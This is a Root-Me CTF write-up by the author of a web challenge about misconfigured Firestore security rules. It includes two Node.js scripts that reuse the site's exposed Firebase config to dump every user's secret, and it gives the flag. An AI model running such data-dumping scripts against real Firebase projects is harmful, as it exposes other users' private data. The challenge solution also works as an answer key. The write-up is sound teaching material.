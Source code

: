 ```yaml
---
slug: /articles/base-on-fire
title: Base on fire
date: 25/10/2022
category: Web
thumbnail: thumbnail.png
description: Firestore security rules misconfiguration
author: Elf
ctf: Root-Me CTF
---
```


# Base on fire

## Context

This is a write up for a challenge I created for the Root-Me CTF we organized to celebrate the 10k members on the Discord server. \
Please keep in mind I wasn't a participant but the creator of the challenge, hence the level of details and explainations I am able to provide. \
That was an amazing experience to help organizing this CTF, and I hope people learned a few things and enjoyed my challenges!

## Description

> The secret of my admin's account on my website has leaked, but I have no idea how! Please help me!

## Resolution

Let's go to the website and see what we can do from here.

![](not_logged.png)

To access this home page, we have to be logged in. Let's go ahead and create an account.

![](sign_up.png)

We can now access the home page where there's a feature to store a custom note for our user.

![](note.png)

If we believe the description of the challenge, there must be a way somewhere to access the notes for the other users.

Also, because the page doesn't refresh when we change our note but it's reflected against the DOM, the logic to change the note must be done from client side with an asynchronous request from JavaScript. \
Let's examine what is going on in the client side code handling this.

![](js.png)

It seems there's a lot going on here. By looking at it, we learn two things here:

- the JavaScript code has been bundled by [webpack](https://webpack.js.org/)
- the website is using [Firebase](https://firebase.google.com/)

The challenge name makes sense now: we're facing a Firebase application. Firebase is a BaaS (backend as a service), meaning it provides a full backend and a SDK to connect to it from any front end. It's a very popular choice for making web applications nowadays.

If we search for `apikey` inside this JavaScript file (or if we scroll down for a moment), we can see this piece of code:

![](config.png)

This is where the Firebase configuration is put, it contains everything that is needed to connect to the Firebase backend associated to this application. \
In addition to that, we can see it using Firebase authentication and Firestore. The authentication part is probably responsible for the sign up and login logic we've used before, while Firestore is probably the database used to store the users secrets here. \
If we continue to search for interesting things in this source code, we can find this piece of code that describes the logic of the front end. The collection used to store the secrets is therefore called... `secrets`.

![](db.png)

Now, how is handled access control to limit what can users see inside of the Firestore database? Well, for this purpose, Firebase created the [Firestore Security Rules](https://firebase.google.com/docs/firestore/security/get-started). It's a kind of very simple language that allows you to define who can access what data in what case. \
This is a very critical feature, because if these rules are misconfigured, users could access data that are not for them. \
In our case, given the description hinting that we can access the other users' secrets, we can reuse the Firebase configuration and try to connect to the project's Firestore database to see if we can access the data we want.

Let's try that!

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    const snapshot = await getDocs(collection(db, "secrets"))

    snapshot.forEach(doc => {
        console.log(doc.id, ":", doc.data())
    })
}

solve()
```

Unfortunately, we're rejected because we don't have the permission.

![](insufficient_perms.png)

It means the security rules prevent a non logged in user from accessing the `secrets` collection. But as we can obviously at least access our own secret when logged in, maybe we can in this case not only access it but also all the other secrets. Let's try it by signing in first and only then fetching the secrets.

```javascript
const { initializeApp } = require("firebase/app")
const { getAuth, signInWithEmailAndPassword } = require("firebase/auth")
const { getFirestore, collection, getDocs } = require("firebase/firestore")

const email = "osef@osef.fr"
const password = "aaaaaa"

async function solve() {
    const firebaseConfig = {
        apiKey: "AIzaSyAjD5umUeqn_4GV6wN4AhbsPrhSHrMPKlU",
        authDomain: "ctf-10k-root-me.firebaseapp.com",
        projectId: "ctf-10k-root-me",
        storageBucket: "ctf-10k-root-me.appspot.com",
        messagingSenderId: "985613815304",
        appId: "1:985613815304:web:6eafaeebb59763f7c5cbbd"
    }
    
    const app = initializeApp(firebaseConfig)
    const auth = getAuth(app)
    const db = getFirestore(app)
        
    auth.onAuthStateChanged(async user => {    
        if (user) {
            // logged in
            const snapshot = await getDocs(collection(db, "secrets"))
    
            snapshot.forEach(doc => {
                console.log(doc.id, ":", doc.data())
            })

            process.exit(0)
        }
    })

    await signInWithEmailAndPassword(auth, email, password)
}

solve()
```

And that's it! The security rules didn't prevent us fro accessing all the secrets in the collection!

![](secrets.png)

You can see the flag being stored as the secret of a user named `admin` whose UID is `1_4m_th3_4dm1n_u1d`, and you also won the right to read all the notes of the participant as a bonus, there are a few funny ones in it. 8)

Flag: `RM{s3cur1ty_rul3s_m1sc0nf1gur4t10n}`
